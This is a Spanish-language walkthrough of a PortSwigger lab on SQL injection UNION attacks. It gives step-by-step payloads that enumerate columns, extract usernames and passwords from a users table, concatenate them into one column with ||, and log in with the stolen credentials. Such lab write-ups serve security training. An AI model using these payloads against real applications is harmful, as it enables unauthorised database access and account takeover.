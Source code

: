 # PortSwigger - SQL injection


## Lab: SQL injection UNION attack, retrieving multiple values in a single column


## Solución

Primero hacemos click en **Gifts** o en cualquier filtro de búsqueda.

![](./imagenes/lab6-1.png)

Veremos que se agrega una cadena que es vulnerable a SQL injection.

![](./imagenes/lab6-2.png)

Empezamos enumerando la cantidad de columnas.

```sql
' UNION SELECT null -- -
```

![](./imagenes/lab6-3.png)

Escribimos dos `null` y comprobamos que existen 2 columnas.

```sql
' UNION SELECT null,null -- -
```

![](./imagenes/lab6-4.png)

Ahora verificamo si ambas columnas aceptan un string y nos damos cuenta que la primera columna no acepta un string.

```sql
' UNION SELECT 'a',null -- -
```

![](./imagenes/lab6-5.png)

Probamos con el segundo null y comprobamos que sí acepta strings.

```sql
' UNION SELECT null,'a' -- -
```

![](./imagenes/lab6-6.png)

Podemos enumerar uno a uno las columnas para obtener los nombres de usuario y contraseñas.

```sql
' UNION SELECT null,username from users -- -
```

![](./imagenes/lab6-7.png)

```sql
' UNION SELECT null,password from users -- -
```

![](./imagenes/lab6-8.png)

Pero la idea del laboratorio es practicar una forma de obtener las dol columnas en una sola query. Para eso podemos usar el símbolo `||` que sirve para unir dos columnas en  SQL.

```sql
' UNION SELECT null,password||username from users -- -
```

![](./imagenes/lab6-9.png)

Podemos separar de mejor forma las dos columnas agregando un símbolo entre las dos columnas. Separaremos ambas columnas con: `||':'||`.

```sql
' UNION SELECT null,password||':'||username from users -- -
```

![](./imagenes/lab6-10.png)

Con esta información vamos a **My account**.

![](./imagenes/lab6-11.png)

Iniciamos sesión con las credenciales que obtuvimos anteriormente.

![](./imagenes/lab6-12.png)

Y resolvemos el lab.

![](./imagenes/lab6-13.png)





